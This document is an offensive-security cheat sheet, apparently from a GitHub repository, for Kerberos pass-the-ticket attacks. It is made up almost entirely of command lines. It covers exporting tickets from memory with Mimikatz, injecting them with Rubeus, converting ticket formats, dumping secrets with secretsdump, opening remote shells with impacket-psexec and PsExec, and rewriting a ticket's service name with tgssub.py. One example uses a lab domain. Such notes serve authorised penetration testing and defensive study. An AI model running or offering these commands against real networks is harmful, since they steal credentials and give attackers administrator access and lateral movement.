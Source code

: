 # Pass the Ticket (ccache / kirbi)

## Tools: mimikatz , rubeus , impacket , ticketConverter.py , secretsdump , tgssub.py

# Convert format (Use this depending on use case)

    ticketConverter.py KIRBI||CCACHE CCACHE||KIRBI (Convert tickets to the appropriate format)

## Convert Base64 ticket to both .ccache and .kirbi https://github.com/SolomonSklash/RubeusToCcache

    python3 rubeustoccache.py <Base64Ticket> <Output.kirbi> <Output.ccache>

#### 1) Rubeus

    Rubeus.exe ptt /ticket:TICKET

#### 2) Mimikatz

    mimikatz kerberos::ptc "TICKET"

#### 3) secretsdump

    [proxychains] secretsdump.py -k 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) impacket tools (Grant System/Admin access)

    export KRB5CCNAME=/path/to/TICKET.CCACHE

    impacket-psexec -k -no-pass USER@IP (Example)

#### 5) tgssub.py 

### Modify SPN

    tgssub.py -in TICKET.CCACHE -out NEW_TICKET.CCACHE -altservice "SERVICE/TARGET" (Pass the Ticket)

### Tool: Mimikatz

     Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

OR

#### 1) 

    privilege::debug

#### 2) 
    sekurlsa::tickets /export

#### 3) 
    
    kerberos::ptt TICKET.kirbi

#### 
    
    klist

### TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

### TGSs=Low-privileged account

## Alternate Method: Rubeus

    .\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

    klist

    .\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
